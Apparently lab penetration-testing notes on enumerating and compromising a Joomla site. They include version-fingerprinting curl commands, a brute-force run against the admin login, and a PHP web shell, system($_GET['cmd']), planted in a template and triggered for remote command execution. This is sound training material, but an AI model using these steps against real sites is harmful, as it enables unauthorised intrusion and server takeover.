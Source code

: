 ### Enumeration

Joomla collect anonymous stats:

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
```

Verify Joomla is in use:

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

Robots.txt:

```bash
curl -s http://dev.inlanefreight.local/robots.txt
```

Verify version:

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

Probably the best way to get the version:

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

Another way:

```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml
```

Automation (Not good at enumerating version):

```bash
sudo pip3 install droopescan
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Attack

Bruteforcing:

- Admin Portal: `http://dev.inlanefreight.local/administrator/index.php`

- Default username `admin`

Download bruteforcing tool:

```
git clone https://github.com/ajnik/joomla-bruteforce.git
```

Run:

```bash
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /opt/metasploit-framework/embedded/framework/data/wordlists/http_default_pass.txt -usr admin
```

Code Execution:

Once logged in go to `templates`

![[Pasted image 20250131162653.png]]

Select a template:

![[Pasted image 20250131162717.png]]

Pick a php file

![[Pasted image 20250131162758.png]]

Add `system($_GET['cmd']);` into file and `Save & Close:`

![[Pasted image 20250131162848.png]]

Use CURL for RCE:

```bash
curl -s http://app.inlanefreight.local/templates/protostar/error.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


